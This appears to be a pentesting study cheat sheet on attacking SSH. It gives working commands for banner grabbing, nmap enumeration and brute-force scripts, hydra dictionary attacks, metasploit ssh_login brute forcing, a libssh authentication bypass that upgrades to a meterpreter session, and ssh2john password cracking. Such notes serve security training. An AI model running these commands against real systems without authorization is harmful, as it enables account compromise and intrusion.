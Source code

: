 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. netcat
	2. [nmap](#nmap)
	3. [hydra](#hydra)
	4. [msfconsole](#msfconsole)
	5. ssh2john

---

# Overview
SSH - Secure Shell

Used to connect to securely connect to remote machines.

## #Ports
- 22 : main port

## Related Services
- OpenSSH

## Usage
`ssh -p 22 user@192.168.4.3`

[Tool page](../Tools/SSH.md)

---

# #Tools
## netcat
`nc 192.168.13.3 22` 
- grabs banner

---

## #nmap
- --script
	- ssh2-enum-algos
		- shows key algorithms
	- ssh-hostkey 
		- --script-args ssh_hostkey=full
	- ssh-auth-methods
		- can check if user has no password set
		- --script-args="ssh.user=admin"
	- ssh-brute --script-args userdb=/userlist
		- args : userdb, passdb, timeout
		- has its own wordlist
	- ssh-run 
		- `--script-args"username=student,password="",cmd=ls"`

---

## #hydra
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.7.3 -t 4 ssh 
```

---

## #msfconsole
- use auxiliary/scanner/ssh/ssh_login
	- options
	- set rhosts 192.26.34.2
	- set userpass_file /usr/share/wordlists/metaslpoit/root_userpass.txt
	- set STOP_ON_SUCCESS true
	- set verbose true
	- run

### Example
1. `search libssh` : service "protocol 2.0"  module
2. `use auxiliary/scanner/ssh/libssh_auth_bypass`
	1. `set rhosts` : set target
	2. `set SPAWN_PTY true` : set flag to spawn session
	3. ctrl-z : background session
3. `sessions -u 1` : upgrade to meterpreter

### Userful Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

---

## ssh2john
1. `ssh2john > hash`
2. `john -w wordlist/rockyou.txt hash`
